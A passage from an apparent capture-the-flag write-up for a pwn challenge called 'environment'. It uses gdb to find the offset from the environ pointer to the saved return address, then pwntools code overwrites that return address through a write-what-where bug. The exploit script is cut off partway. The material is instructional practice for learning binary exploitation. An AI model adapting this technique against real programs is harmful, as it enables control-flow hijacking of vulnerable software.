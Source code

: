 Now we have the address of ```environ```, We need to calculate the offset between ```enviorn``` to ```rip``` on ```plant``` function (which is the function with write-what-where), To do that we can use ```gdb```:
```asm
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/environment]
└──╼ $ gdb -q environment
gef➤  b *plant
Breakpoint 1 at 0x401383
gef➤  r
Starting program: /ctf_htb/cyber_apocalypse/pwn/environment/environment 

🌲 Save the environment ♻

            *
           ***
          *****
         *******
        *********
       ***********
      *************
     ***************
           | |
           | |
           | |


1. Plant a 🌲

2. Recycle ♻
> 1
gef➤  p/x (long)(environ)-(long)$rsp
$1 = 0x120
```	

So the offset is ```0x120```, So we need to write the address of ```hidden_resources``` to ```environ-0x120``` which is the rip.

```python
#Write address of hidden_resource to environ-0x120 (calculated using p/x (long)(environ)-(long)$rsp on plant function)
p.sendlineafter('>','1')
p.sendlineafter('>',hex(environ-0x120))
p.sendlineafter('>',hex(binary.sym.hidden_resources))
print(p.recvuntil('}')) # until the end of the flag
```

So let's write all together in [exploit.py](exploit.py):
```python
from pwn import *

binary = context.binary = ELF('./environment')

if args.REMOTE:
        libc = ELF('./libc.so.6')
        p = remote('188.166.172.13',30121)
else:
	# When we running locally use this libc, in remote we will use the attached libc
        #libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
	libc = ELF('/lib/x86_64-linux-gnu/libc-2.27.so')
        p = process(binary.path)



#leak printf address
for _ in range(5):
	p.sendlineafter('>','2')
```